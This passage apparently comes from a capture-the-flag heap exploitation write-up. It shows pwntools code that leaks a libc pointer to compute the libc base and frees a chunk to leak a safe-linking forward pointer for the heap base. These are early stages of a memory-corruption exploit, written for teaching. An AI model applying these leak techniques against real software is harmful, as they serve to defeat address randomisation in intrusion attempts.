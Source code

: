 So offset is `0x1c5220`. The following code will be use to take this leak and calculate libc base address:

```
libc.address = u64(show(7) + b'\x00\x00') - 0x1c5220
log.success("Libc base: " + hex(libc.address))
```

That's great! Let's move on the next stage: Leak heap address!


### Stage 2: Leak heap address

To leak heap address, we just simply create 1 small chunk then free it. Remember what I have explained? The forward pointer has to XOR first, then it will be written to chunk. So just free() 1 small chunk and we can get the address of forward pointer, then recover the base address of heap:

```
fw_pointer = u64(show(0).ljust(8, b'\x00'))
log.success("Leak fw pointer: " + hex(fw_pointer))
```

And we can see that the forward pointer was leaked:

![fw_pointer_leaked.png](images/fw_pointer_leaked.png)

Check with GDB:

![check_fw_pointer.png](images/check_fw_pointer.png)
